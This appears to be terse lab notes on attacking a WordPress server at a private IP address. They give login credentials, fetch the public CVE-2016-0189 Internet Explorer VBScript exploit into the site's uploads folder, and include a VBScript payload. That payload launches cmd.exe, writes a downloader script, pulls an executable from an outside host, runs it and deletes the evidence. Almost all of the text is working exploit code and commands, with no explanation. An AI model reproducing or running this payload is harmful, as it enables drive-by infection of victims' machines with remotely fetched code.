 test

http://192.168.0.5:8016/

kisec / kisec123

cd /var/www/wordpress/wp-content/uploads/contact_files/

ls

wget https://raw.githubusercontent.com/theori-io/cve-2016-0189/master/exploit/vbscript_godmode.html -O exploit.html

set shell=createobject("Shell.Application")
shell.ShellExecute "cmd.exe", "/c CD %TEMP%&@echo Set objXMLHTTP=CreateObject(""MSXML2.XMLHTTP"")>down_exec.vbs&@echo objXMLHTTP.open ""GET"",""http://www.greyhathacker.net/tools/messbox.exe"",false>>down_exec.vbs&@echo objXMLHTTP.send()>>down_exec.vbs&@echo If objXMLHTTP.Status=200 Then>>down_exec.vbs&@echo Set objADOStream=CreateObject(""ADODB.Stream"")>>down_exec.vbs&@echo objADOStream.Open>>down_exec.vbs&@echo objADOStream.Type=1 >>down_exec.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>down_exec.vbs&@echo objADOStream.Position=0 >>down_exec.vbs&@echo objADOStream.SaveToFile ""%TEMP%\messbox.exe"">>down_exec.vbs&@echo objADOStream.Close>>down_exec.vbs&@echo Set objADOStream=Nothing>>down_exec.vbs&@echo End if>>down_exec.vbs&@echo Set objXMLHTTP=Nothing>>down_exec.vbs&@echo Set objShell=CreateObject(""WScript.Shell"")>>down_exec.vbs&@echo objShell.Exec(""%TEMP%\messbox.exe"")>>down_exec.vbs&del %TEMP%\messbox.exe&cscript.exe %TEMP%\down_exec.vbs&del %TEMP%\down_exec.vbs", "", "open", 0
